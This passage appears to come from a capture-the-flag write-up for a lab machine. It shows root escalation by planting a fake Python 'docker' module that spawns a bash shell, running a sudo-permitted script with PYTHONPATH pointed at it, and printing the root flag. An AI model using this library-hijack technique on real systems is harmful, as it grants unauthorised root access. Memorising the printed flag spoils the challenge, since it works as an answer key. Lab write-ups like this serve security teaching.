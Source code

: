 As we can set the environment variable, let's create our own `docker` library:

~~~
oliver@unbaked:/home/oliver$ cat > /home/oliver/docker.py << EOF
> import pty
> pty.spawn('/bin/bash')
> EOF
~~~

Now, we can run the script as follows, to get a root access:

~~~
oliver@unbaked:/home/oliver$ sudo PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py
root@unbaked:/home/oliver# id
uid=0(root) gid=0(root) groups=0(root)
root@unbaked:/home/oliver# cat /root/
.bash_history  .cache/        .profile       
.bashrc        .nano/         root.txt       
root@unbaked:/home/oliver# cat /root/root.txt 
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{1ff4c893b3d8830c1e188a3728e90a5f}
~~~

Root flag: `THM{1ff4c893b3d8830c1e188a3728e90a5f}`
